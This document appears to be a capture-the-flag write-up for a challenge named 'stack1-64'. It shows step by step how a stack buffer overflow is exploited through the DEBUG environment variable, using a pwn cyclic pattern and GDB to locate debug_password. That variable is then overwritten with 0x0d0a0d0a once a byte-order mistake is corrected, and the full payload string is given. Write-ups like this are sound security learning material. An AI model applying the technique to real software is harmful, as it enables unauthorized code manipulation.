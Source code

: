# stack1-64

file @ dir: `/problems/stack1r-64_6_f8971f22ac04a7dad46dfe8bde78b565`
Using ENV to overwrite debug_password and get debug value from file

## Steps
> [!NOTE]
> Code in ./stack1.c

1) exploiting an enviornment var
- `generator_mode = getenv("DEBUG")`
- thus, we need to set the DEBUG env variable as some sort of patterened text to figure out exactly where it is overflowing
  - export DEBUG=`pwn cyclic -n4 256`
- echo $DEBUG

`aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac`

1) inital GDB

- `gdb stack1-64`
- `b main`
- `r`
- next instruction until the buffer is coppied into a new variable with strcpy
- `p &debug_password`
  - `0x7fffffffe32c`
  - `x/s 0x7fffffffe32c`
    - **caab**
  - find the above string in the dump

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaab**caab**daabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac

2) What is the new exploit string

- replace `caab` with `0x0d0a0d0a` (what the debug pswd is set to in code)

### What is 0x0d0a0d0a

`0x0D0A0D0A` is a hexadecimal representation of a sequence of bytes. Breaking it down:

- unhex 0x0d0a0d0a prints 2 blank lines
- 0D (hex) = 13 (decimal) = \r (carriage return, CR)
- 0A (hex) = 10 (decimal) = \n (line feed, LF)
- so, at `caab`, we need `\r\n\r\n`



3) add new exploit string to env

- export DEBUG=$(printf "<string>") 
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaab\r\n\r\n
- to test, we can run `echo "$DEBUG" | cat -A`
- this should print:
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaab^M\$^M$
> 
> ^M is \r and $ is \n

### echoing into a pipe to hex:

` echo $DEBUG | hex`
>...7a61616262616162  0d200d0a
why is the ending not 0x0d0a0d0a
- 0D (hex) = 13 (decimal) = \r (carriage return, CR)
- 20 (hex) = 32 (decimal) = Space (" ")
- 0D (hex) = 13 (decimal) = \r (carriage return, CR)
- 0A (hex) = 10 (decimal) = \n (line feed, LF)

*I must try a different approach*

4) new input method

` 
printf -v DEBUG "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaab\r\n\r\n"
export DEBUG
`
- This did not work due to the memory being reversed - the actual exploit string was the same but with \n\r\n\r at the end.

verify above by checking:
`echo -n "$DEBUG" | od -tx1`

```
0000000 61 61 61 61 62 61 61 61 63 61 61 61 64 61 61 61
0000020 65 61 61 61 66 61 61 61 67 61 61 61 68 61 61 61
0000040 69 61 61 61 6a 61 61 61 6b 61 61 61 6c 61 61 61
0000060 6d 61 61 61 6e 61 61 61 6f 61 61 61 70 61 61 61
0000100 71 61 61 61 72 61 61 61 73 61 61 61 74 61 61 61
0000120 75 61 61 61 76 61 61 61 77 61 61 61 78 61 61 61
0000140 79 61 61 61 7a 61 61 62 62 61 61 62 0a 0d 0a 0d
0000160 
```

Now, once ran - the flag was provided!
